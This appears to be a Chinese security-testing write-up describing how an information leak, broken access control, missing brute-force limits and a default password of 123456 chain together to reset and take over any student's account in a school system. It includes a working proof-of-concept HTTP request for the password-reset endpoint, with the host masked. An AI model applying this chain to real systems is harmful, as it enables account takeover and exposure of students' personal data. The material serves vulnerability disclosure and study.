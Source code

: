 # 原创
：  实战 | 几个有趣的漏洞导致的连锁危害

# 实战 | 几个有趣的漏洞导致的连锁危害

##### 前引：总的来说就是信息泄露+越权+爆破登录+xss这四个漏洞导致的连锁反应，因为他有默认密码123456，所以最终可以重置全校学生的密码，并都植入xss，危害十足。

信息收集：和嘉名童鞋一起测试的，都是他收集的QAQ 主要通过百度贴吧搜集到了默认密码和学号信息，实在是牛皮

### 漏洞复现：漏洞复现：

##### 漏洞一：某接口没有对权限进行限制导致信息泄露

登录后访问/stu/m/member/list

抓取数据包：

可以看到其他同班同学的个人资料，有学号、电话、邮箱，并且因为默认密码为123456，所以获取其他人的学号后可以登录很多的账号；<br/> 重要的是，该接口泄露了userid！这在接下来的漏洞二中有着很严重的危害：

第一个接口泄露了同班同学的userid，第二个接口可以通过userid重置密码。第三个漏洞没防爆破，有默认密码可以爆破学号登录很多账号，导致可以重置学校大部分用户的密码

##### 漏洞二：任意用户密码重置123456

危害：只需要登录任一账号获取学生权限，便可以将任意用户的密码重置为默认密码123456：

POC：

POST /stu/m/member/resetPassword HTTP/1.1<br/> Host: xxxx<br/> Cookie: 【登录任意账号的cookie即可】<br/> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0<br/> Accept: application/json, text/javascript, /; q=0.01<br/> Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2<br/> Accept-Encoding: gzip, deflate<br/> Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br/> X-Requested-With: XMLHttpRequest<br/> Content-Length: 14<br/> Origin: xxxxx<br/> Referer: xxxxx<br/> Sec-Fetch-Dest: empty<br/> Sec-Fetch-Mode: cors<br/> Sec-Fetch-Site: same-origin<br/> Te: trailers<br/> Connection: close

userId=4841276

漏洞复现：先访问/stu/m/member/resetPassword后抓包

改为post包，加一个参数userId=4841276【userId在漏洞一未授权访问里可以看到，我重置了我测试的账号】

重置成功，恢复为默认密码123456

userid在漏洞一的未授权访问里获取：

比如我们想登录这位07116224的同学账号，未授权访问获取userId=4841566

登录随意一个账号后，构造如下数据包发送

登陆账号为xxxx+学号，默认密码123456

=

登陆成功
